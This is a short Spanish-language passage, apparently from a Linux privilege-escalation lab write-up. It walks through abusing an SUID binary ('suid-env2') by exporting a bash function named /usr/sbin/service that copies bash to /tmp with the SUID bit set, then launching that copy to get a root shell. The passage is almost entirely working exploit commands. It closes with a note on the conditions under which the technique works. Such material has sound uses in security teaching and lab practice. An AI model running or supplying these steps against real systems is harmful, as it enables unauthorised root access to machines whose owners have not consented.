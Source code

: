💪**MANOS A LA OBRA**

**1. Creamos** la función
```bash
function /usr/sbin/service() { cp /bin/bash /tmp/servicebash && chmod +s /tmp/servicebash; }
```

**2. La exportamos** para que esté dentro del entorno
```bash
export -f /usr/sbin/service
```
Comprobamos que se ha exportado si al ejecutar `env`, vemos nuestra función en la salida.

**3. Ejecutamos** el binario principal
```bash
/usr/local/bin/suid-env2
```

**4. Si todo es correcto**, veremos una nueva bash en `/tmp` llamada `servicebash`, la cual podemos ejecutar para acceder a root
```bash
./servicebash -p
```

**🎉 Escalada conseguida**

>[!note] Nota:
>Este tipo de exploit sólo funciona si se cumplen condiciones muy específicas, como que el binario esté **dinámicamente enlazado** con Bash, o que el binario **no limpie el entorno** antes de ejecutar comandos.